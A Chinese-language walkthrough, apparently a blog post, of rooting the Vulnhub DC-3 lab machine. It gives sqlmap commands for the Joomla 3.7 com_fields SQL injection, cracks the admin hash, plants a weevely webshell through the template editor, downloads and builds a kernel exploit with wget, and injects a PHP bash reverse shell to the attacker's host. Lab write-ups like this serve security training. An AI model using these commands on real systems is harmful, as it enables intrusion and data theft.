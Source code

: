```yaml
---

layout: mypost
title: Vulnhub靶机DC3渗透
categories: [靶机]
---
```


靶机下载地址：[DC3](https://www.vulnhub.com/entry/dc-32,312/)

Kali Linux 地址：192.168.43.110

![](https://z3.ax1x.com/2021/04/23/cXj2ff.png)

DC3 地址：192.168.43.46，只有一个 80 端口开放

![](https://z3.ax1x.com/2021/04/23/cXvNHs.png)

> This time, there is only one flag, one entry point and no clues.
>
> To get the flag, you'll obviously have to gain root privileges.
>
> How you get to be root is up to you - and, obviously, the system.
>
> Good luck - and I hope you enjoy this little challenge.  :-)

 wappalyzer 分析下

![](https://z3.ax1x.com/2021/04/23/cXv6u4.png)

Joomla CMS 和 Ubuntu 是突破口

dirb 扫目录找后台

![](https://z3.ax1x.com/2021/04/23/cXvIgO.png)

```url
http://192.168.43.46/administrator/
```

/README.txt 看版本信息

![](https://z3.ax1x.com/2021/04/23/cXxKr4.png)

或者用 joomla 有专门的扫描工具

```bash
joomscan --url http://192.168.43.46/
```

![](https://z3.ax1x.com/2021/04/23/cXziQO.png)

# Joomla CMS

找现成 exp

```bash
searchsploit joomla 3.7
```

![](https://z3.ax1x.com/2021/04/23/cjSp7j.png)

选择第二个 

```bash
cat /usr/share/exploitdb/exploits/php/webapps/42033.txt
```

![](https://z3.ax1x.com/2021/04/23/cjS7KU.png)

漏洞地址

```url
http://192.168.43.46/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```

![](https://z3.ax1x.com/2021/04/23/cjSOa9.png)

这里用 sqlmap 去跑会出问题

之前切换成 zsh ，但是 zsh 在缺省情况下始终自己解释，而不会传递给 find 来解释

可以在～/.zshrc 中加入 setopt no_nomatch

```bash
vi ～/.zshrc
source ~/.zshrc	
```

这里直接切换回 bash 了

爆库

```bash
sqlmap -u "http://192.168.43.46/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![](https://z3.ax1x.com/2021/04/23/cjpUMT.png)

爆表

```bash
sqlmap -u "http://192.168.43.46/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables  -p list[fullordering]
```

![](https://z3.ax1x.com/2021/04/23/cjp5od.png)

爆字段

```bash
sqlmap -u "http://192.168.43.46/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' --columns -p list[fullordering]
```

![](https://z3.ax1x.com/2021/04/23/cj9pYn.png)

爆值

```bash
sqlmap -u "http://192.168.43.46/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C 'username,password' --dump -p list[fullordering]
```

![](https://z3.ax1x.com/2021/04/23/cj9ilV.png)

得到加密的密码

```password
$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

用 john 爆出明文

```bash
vim hash
john hash
```

![](https://z3.ax1x.com/2021/04/23/cjP9MV.png)

密码 snoopy （也可以直接用joomblah脚本得到）

![](https://z3.ax1x.com/2021/04/23/cjPZGR.png)

去后台

![](https://z3.ax1x.com/2021/04/23/cjPKsK.png)

发现模板 Templates 里可以修改 php 代码

用 weevely 生成后门

```bash
weevely generate password webshell.php // password 可修改
cat webshell.php
```

![](https://z3.ax1x.com/2021/04/23/cjP3IH.png)

```bash
weevely http://192.168.43.46/templates/beez3/webshell.php password
```

![](https://z3.ax1x.com/2021/04/23/cjPtzt.png)

成功上线，发现是 Ubuntu 2016 也就是 16.04 版本

# Ubuntu

经过一番尝试发现下面这个漏洞可以利用

![](https://z3.ax1x.com/2021/04/23/cjP6Wn.png)

![](https://z3.ax1x.com/2021/04/23/cjiPSI.png)

![](https://z3.ax1x.com/2021/04/23/cjPWLT.png)

将 exp 下载到靶机上，编译执行

```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
```

这里对两个模板都尝试过，一个最后一步没反应，另一个最后一步不成功

事后回想应该是 chomd 777 权限问题

转换思路，反弹 shell

Kali 没有装蚁剑或冰蝎所以用 bash 来反

在任意模板主页 index.php 里植入小🐎

```shell
system("bash -c 'bash -i >& /dev/tcp/192.168.43.110/8080 0>&1' ");
```

打开 Kali 8080端口监听

```bash
nc -lvp 8080
```

访问反弹页面

```url
http://192.168.43.46/templates/protostar/index.php
```

![](https://z3.ax1x.com/2021/04/23/cjigtH.png)

成功上线，相同操作再来一次

![](https://z3.ax1x.com/2021/04/23/cjiqhj.png)

提权成功

![](https://z3.ax1x.com/2021/04/23/cjivj0.png)

Pwned！

